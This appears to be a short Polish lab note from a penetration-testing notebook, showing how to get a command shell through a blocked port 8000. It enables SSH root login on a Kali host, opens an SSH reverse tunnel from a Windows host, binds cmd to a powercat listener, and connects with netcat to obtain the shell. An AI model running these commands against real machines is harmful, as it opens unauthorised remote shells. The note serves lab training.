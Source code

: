 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# T3 - zablokowany port 8000

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (3).jpg" alt=""><figcaption></figcaption></figure>

</div>

**Kali** 10.20.10.31

```python
service ssh start

#jeśli zalogowany jako root to trzeba edytować plik
vim /etc/ssh/sshd_config
PermitRootLogin yes
```

**Win** bez serwera ssh 10.20.10.4

```python
ssh -R 4555:10.20.10.4:8000 kali@10.20.10.31

powercat -l -p 8000 -e cmd -t 360
```

**Kali** 10.20.10.31

```python
nc localhost 4555
#i mamy shella
```

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (4).jpg" alt=""><figcaption></figcaption></figure>

</div>
